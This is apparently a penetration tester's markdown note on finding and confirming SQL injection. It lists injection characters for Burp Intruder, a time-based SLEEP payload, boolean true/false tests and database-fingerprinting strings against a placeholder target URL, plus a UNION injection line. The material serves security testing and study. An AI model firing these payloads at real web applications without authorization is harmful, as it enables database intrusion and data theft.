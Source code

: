 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```

Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- - 
%27 -- - 
" -- - 
%22 -- - 
# -- - 
%23 -- - 
; -- - 
%3B -- - 
) -- - 
```

![[Pasted image 20220712133826.png]]

![[Pasted image 20220712133729.png]]

Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.

Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```

#### Boolean Based Detection
Original URL:
```
http://$TARGET/view.php?id=1141
```

Quick injection test:
```
http://$TARGET/view.php?id=1141'
```

Same results if we change the parameter to something non existent. 
```
http://$TARGET/view.php?id=9999
```


Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!

Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!

#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```

Oracle testing:
```
'||(SELECT '' FROM dual)||'
```

If the page loads correctly, that should mean you found an injection point.

#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- - 
```

![[Pasted image 20220712134347.png]]

#### SQL Login bypass

Use Intruder (Battering ram) + PayloadAllTheThings:

#### MySql
[[1.2_MySQL]]

#### MariaDB
[[1.3_MariaDB]]

#### OracleDB
[[1.4_OracleDB]]

#### MSSQL
[[1.5_MSSQLDB]]

#### MongoDB
[[Port 27017 - MongoDB ~]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
